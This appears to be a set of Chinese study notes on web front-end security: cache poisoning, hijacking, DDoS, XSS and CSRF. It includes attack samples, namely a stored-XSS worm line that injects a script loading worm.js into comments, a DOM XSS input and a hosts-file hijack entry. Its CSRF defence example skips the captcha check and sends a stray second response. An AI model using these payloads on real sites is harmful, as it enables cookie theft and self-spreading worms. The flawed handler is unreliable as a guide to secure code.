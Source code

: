 ### 1、恶意网站拦截 ###
* 浏览器周期性的从服务端获取一份最新的恶意网站黑名单，如果，用户上网时访问的网址存在于此黑名单中，浏览器会弹出一个警告页面。
* 解决办法：工信部投诉

### 2、缓存投毒 ###
* 免费的WiFi，欢迎页，偷偷请求好多网站，访问A站时，加载了b站的通用脚本jq/bs(内含恶意脚本)，由于大部分网站有缓存静态文件（jq,bootstrap）的时间较长。离开免费WiFi后，再次请求A站时候，就会触发jq中含有的恶意代码。
* 解决办法：尽量不用；清除缓存。
### 3、文件投毒 ###
* 下载非官方的插件（jq）;官方下载地址被攻击；不可信的第三方cdn资源。
* 解决办法：自己擦亮眼睛
### 4、客户端投毒 ###
* chrome 安装了恶意的插件
* 解决办法：密码防止装库，手机验证码
### 5、网页劫持 ###
* 本机的hosts文件被篡改,映射被改了、190.208.173.191 preok.com
* 公网的dns被解析到另一个恶意网站。
 * 脚本被篡改，比如jq引用其它网站的包。
* 解决办法：升级https。
### 6、DDOS攻击（distribute denial of service） ### 
 * 黑客控制大量肉鸡（别人ip，不同IP）发送非正常请求，
 * 向主机服务器频繁发送非正常请求，
 * 解决办法：没有有效的方法。1、验证码,2、限制请求频率、3、增加服务宽带（增加并发量，双11）、4、负载均衡分布式服务(不同区域不同服务器)、5、买些高仿IP（太贵）
### 7、xss+csrf 儒虫 ### 
* 儒虫 有人引爆它，让它触发，比如
    ```
    // 将一个请求接口脚本 存到服务器，
    // 比如：下边评论功能，将评论内容发到数据库，每次有人=看的时候就自动提交一次。越来越多。
    const attack = '<script src="http://localhost:3001/worm.js"></script>';
    $.post('/api/comments', { content: 'haha' + attack });
    ```
### 8、HTTP劫持 ###
* 客户端与服务器二者建立了通道，中间被劫持，也可能是运营商加个广告、
* 解决办法：https

### 9、自身安全漏洞问题 ###    
    
* 1、跨站脚本攻击（XSS）
    * 含义：cross site script,避免和css重复、所以叫 ‘XSS’,往网页里注入恶意的脚本代码，当用户访包含恶意脚本的代码时候，通过恶意脚本，黑客可以获取和控制用户信息。
    * 反射型（发给服务器返回）：引导用户点击链接，
        * 解决办法：httpOnly浏览器禁止页面的js访问带有HttpOnly属性的Cookie；谷歌浏览器做了大部分拦截；需要encodeURI和encodeURIComponent联合使用。
    * 存储型：恶意的脚本存储到服务器。
        * 解决办法：输入检测（过滤js脚本），输出检测（编码火转移）;需要encodeURI和encodeURIComponent联合使用;[html转义](http://www.w3school.com.cn/html/html_entities.asp);js转义（“e” 编码为“\145”），前端展示用函数（类库）转义下。
    * DOM-Based型XSS。不需要服务端参与，是由于DOM结构修改导致的，基于浏览器DOM解析的攻击。
    浏览器在DOM解析的时候直接使用恶意数据，常见的触发场景就是在修改innerHTML outerHTML document.write的时候。
       * 解决办法，过滤输入
       
    ```
        DOM-Based
        <body>
        <h1>输入链接地址，然后点击按钮</h1>
        <div id="content"></div>
        <input type="text" id="link">
        <button onclick="setup()">设置</button>
        <script src="https://cdn.bootcss.com/jquery/3.3.1/jquery.js"></script>
        <script>
            function setup() {
                // " onclick=alert(1) //
                let html = `<a href="${$('#link').val()}">点我</a>`;
                $('#content').html(html);
            }
        </script>
        </body>
    ```
    
    * payload XSS。窃取用户的Cookie，识别浏览器，钓鱼链接让用户访问假冒网站。
* 2、跨站请求伪造CSRF（Cross-site request forgery） 
    * 含义：跨站点请求伪造。  用户A登录银行网站，登录成功后会设置cookie，黑客诱导用户A登录到黑客的站点，然后会返回一个页面 ，用户访问这个页面时，这个页面会伪造一个转账请求到银行网站。
    * 解决办法1 验证码（影响用户体验） 类库（svgCaptcha），刷新的时候后端生成验证码发送给前端，前端保存到session（或者仅仅显示）中，请求的时候带过去（参数），相同服务端就返回，否则就拒绝。
    ```
    <div class="form-group">
        <label for="captcha" id="captcha"></label>
        <input id="captcha" class="form-control" placeholder="请输入验证码">
    </div>
    
    
     $.get('/api/captcha').then(data => {
        if (data.code == 0) {
            $('#captcha').html(data.captcha);
        } else {
            alert('用户未登录');
            location.href = '/login.html';
        }
    });
        var svgCaptcha = require('svg-captcha');
    app.get('/api/captcha', function (req, res) {
        let session = userSessions[req.cookies.sessionId];
        if (session) {
            var codeConfig = {
                size: 5,// 验证码长度
                ignoreChars: '0o1i', // 验证码字符中排除 0o1i
                noise: 2, // 干扰线条的数量
                height: 44
            }
            var captcha = svgCaptcha.create(codeConfig);
            session.captcha = captcha.text.toLowerCase(); //存session用于验证接口获取文字码
            res.send({ code: 0, captcha: captcha.data });
        } else {
            res.json({ code: 1, data: '没有该用户' });
        }
    });
    
    ```
    * 解决办法2、refer验证（不可靠）
     ```
      let referer = req.headers['referer'];
        if (/^https?:\/\/localhost:3000/.test(referer)) {
    
        } else {
            res.json({ code: 1, error: 'referer不正确' });
        }
     ```
     * 解决办法3 token验证（推荐）服务端生成token传给浏览器，交互的时候，判断是否相同。token有很多种生成方式，比如cookie或者sessionId,规则前后端双方约定好。 不容易被伪造，一次性的，
     ```
     function getClientToken() {
            let result = document.cookie.match(/token=([^;]+)/);
            return result ? result[1] : '';
        }
    function transfer(event) {
                event.preventDefault();
                let target = $('#target').val();
                let amount = $('#amount').val();
                let captcha = $('#captcha').val();
                $.post('/api/transfer', {
                    target,
                    amount,
                    captcha,
                    clientToken: getClientToken()
                }).then(data => {
                    if (data.code == 0) {
                        alert('转账成功');
                        location.reload();
                    } else {
                        alert('用户未登录');
                        location.href = '/login.html';
                    }
                });
    }
         app.post('/api/transfer', function (req, res) {
        // let referer = req.headers['referer'];
        //if (/^https?:\/\/localhost:3000/.test(referer)) {
        let { target, amount, clientToken, captcha } = req.body;
        amount = isNaN(amount) ? 0 : Number(amount);
        let { username, token } = userSessions[req.cookies.sessionId];
        if (username) {
            if (clientToken == token) {
                let user;
                for (let i = 0; i < users.length; i++) {
                    if (username == users[i].username) {
                        users[i].money -= amount;
                    } else if (target == users[i].username) {
                        users[i].money += amount;
                    }
                }
                res.json({ code: 0 });
            } else {
                res.json({ code: 1, error: '违法操作' });
            }
        } else {
            res.json({ code: 1, error: '用户没有登录' });
        }
        //} else {
        res.json({ code: 1, error: 'referer不正确' });
        //}
    })
     ```
 
